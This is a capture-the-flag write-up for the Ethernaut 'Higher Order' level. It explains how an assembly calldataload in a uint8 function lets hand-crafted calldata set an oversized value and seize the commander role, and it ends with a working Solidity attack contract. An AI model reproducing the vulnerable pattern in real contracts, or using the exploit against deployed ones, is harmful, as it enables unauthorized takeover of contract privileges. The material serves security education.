

## Challenge
### Description
Imagine a world where the rules are meant to be broken, and only the cunning and the bold can rise to power. Welcome to the Higher Order, a group shrouded in mystery, where a treasure awaits and a commander rules supreme.
Your objective is to become the Commander of the Higher Order! Good luck!
Things that might help:
Sometimes, calldata cannot be trusted.
Compilers are constantly evolving into better spaceships.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```
## Background

---

In an external function call, the first 4 bytes of calldata are the function selector, followed by arguments ABI-encoded in 32-byte units.
For example, calling `registerTreasury(uint8)` gives calldata with the following structure.
```plain text
0x00000000 ~ 0x00000003: function selector
0x00000004 ~ 0x00000023: first argument slot
```
In Solidity type terms, `uint8` can only represent 0 to 255. But calldata itself is a byte array. A normal ABI encoder only lets `uint8`-range values in, but crafting calldata directly with a low-level call lets you put a 32-byte value of 256 or more in the first argument slot.

---

If you use a Solidity function parameter directly, the compiler uses the value decoded according to the type. `calldataload(offset)`, on the other hand, reads 32 bytes starting from that position as-is.
```solidity
calldataload(4)
```
The code above reads 32 bytes starting from the position after the 4-byte selector. Regardless of whether the function's declared argument is `uint8`, the raw 32-byte value in calldata is returned as-is.
## Code analysis

---

The storage layout:
```solidity
address public commander;

uint256 public treasury;
```
`commander` is placed in storage slot 0, and `treasury` in storage slot 1. In Solidity, state variables go into storage slots in declaration order, and a single `address` occupies one slot.
Later, `sstore(treasury_slot, ...)` writes directly to slot 1, where `treasury` is stored.

---

The type bypass is in `registerTreasury`:
```solidity
function registerTreasury(uint8) public {
    assembly {
        sstore(treasury_slot, calldataload(4))
    }
}
```
On the surface, `registerTreasury` takes a single `uint8`. With a normal Solidity call, the maximum value you can pass is 255.
But inside the function there is no parameter name, and the parameter value is never used. Instead, the assembly reads the first argument slot of calldata as-is with `calldataload(4)` and stores it in `treasury`.
The function signature `registerTreasury(uint8)` only serves to match the call selector. The value actually stored is the 32-byte value put directly into calldata. If you craft calldata to put in `uint256(256)`, then 256 is stored in `treasury`.

---

Finally, the condition in `claimLeadership`:
```solidity
function claimLeadership() public {
    if (treasury > 255) commander = msg.sender;
    else revert("Only members of the Higher Order can become Commander");
}
```
The level goal is for me to become the `commander`. The only condition is `treasury > 255`.
If only valid `uint8` input were possible, this condition could not be satisfied. But as seen above, `registerTreasury` stores the raw 32 bytes of calldata, so we can make `treasury` 256 or more.
Whoever is `msg.sender` in `claimLeadership()` becomes the `commander`. If you call `claimLeadership()` from the attack contract, `commander` becomes the attack contract address. Ethernaut's verification checks whether the player address is the commander, so only `treasury` should be raised via the attack contract, and `claimLeadership()` must be called by the player directly.
## Solution
First, build the selector of `registerTreasury(uint8)`, then directly send calldata with `uint256(256)` appended as 32 bytes after it. Even though the function signature looks like `uint8`, the assembly reads the entire first argument slot and stores 256 in `treasury`.
Then calling `claimLeadership()` from the player address makes the `treasury > 255` condition true, and `commander` changes to the player address.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack{
    address public higherorder;

    constructor(address _addr){
        higherorder=_addr;
    }
    function attack() external {
        bytes4 register = bytes4(keccak256("registerTreasury(uint8)"));
        bytes memory pl = abi.encodePacked(register, uint256(256));
        (bool ok,) = higherorder.call(pl);
        require(ok);
    }
}
```

